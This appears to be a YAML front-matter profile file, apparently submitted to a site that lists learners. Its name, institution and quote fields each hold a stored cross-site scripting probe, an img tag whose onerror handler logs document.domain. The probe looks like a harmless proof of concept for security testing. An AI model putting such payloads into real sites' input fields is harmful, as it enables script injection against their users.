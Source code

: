 ```yaml
---
name: Att Att<img src=x onerror=console.log(document.domain)><i>aa</i>
institution: School of Open Learning (SOL) (University of Delhi)<img src=x onerror=console.log(document.domain)><i>aa</i>
quote: Learn more to hack more<img src=x onerror=console.log(document.domain)><i>aa</i>
github_user: attacker021
---
```

